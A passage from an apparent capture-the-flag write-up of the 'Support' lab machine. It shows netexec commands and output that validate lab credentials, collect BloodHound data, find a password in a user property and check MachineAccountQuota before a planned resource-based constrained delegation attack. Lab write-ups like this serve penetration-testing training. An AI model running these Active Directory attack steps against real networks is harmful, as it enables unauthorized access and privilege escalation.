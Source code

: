We got the password, now let's try to authenticate as user `ldap`.

```terminal
[★]$ nxc smb 10.129.230.181 -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'               
SMB         10.129.230.181  445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domin:support.htb) (signing:True) (SMBv1:False) (Null Auth:True)
SMB         10.129.230.181  445    DC               [+] support.htb\ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

It works.

### Bloodhound

I'll run bloodhound collection using netexec.

```terminal
[★]$ nxc ldap 10.10.11.174 -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' --bloodhound --collection all --dns-server 10.10.11.174
LDAP        10.10.11.174    389    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:support.htb) (signing:None) (channel binding:No TLS cert)
LDAP        10.10.11.174    389    DC               [+] support.htb\ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
LDAP        10.10.11.174    389    DC               Resolved collection methods: trusts, container, group, objectprops, psremote, dcom, acl, rdp, localadmin, session
LDAP        10.10.11.174    389    DC               Done in 0M 22S
LDAP        10.10.11.174    389    DC               Compressing output into /home/sirius/.nxc/logs/DC_10.10.11.174_2025-07-19_105938_bloodhound.zip
```

Listing shortest path to domain admin we get the following.

![domain](3.png)

The user support is out way, but we don't have a password. Let's list the user's properties using `powerview.py`

![pwer](4.png)

We got what looks like a password in the info property! Let's test it.

```terminal
[★]$ nxc smb 10.10.11.174 -u support -p Ironside47pleasure40Watchful       
SMB         10.10.11.174    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.174    445    DC               [+] support.htb\support:Ironside47pleasure40Watchful 
```

User support is a member of a group that has GenericAll ove the DC, having that allows us to perform a Resource-Based Constrained Delegation attack by creating a computer and giving it the AllowedToAct permissions.

First let's check if we can create machines by reading the MachineAccountQuota Attribute.

```terminal
[★]$ nxc ldap 10.10.11.174 -u support -p Ironside47pleasure40Watchful -M maq                                                         
LDAP        10.10.11.174    389    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:support.htb) (signing:None) (channel binding:No TLS cert) 
LDAP        10.10.11.174    389    DC               [+] support.htb\support:Ironside47pleasure40Watchful 
MAQ         10.10.11.174    389    DC               [*] Getting the MachineAccountQuota
MAQ         10.10.11.174    389    DC               MachineAccountQuota: 10
```
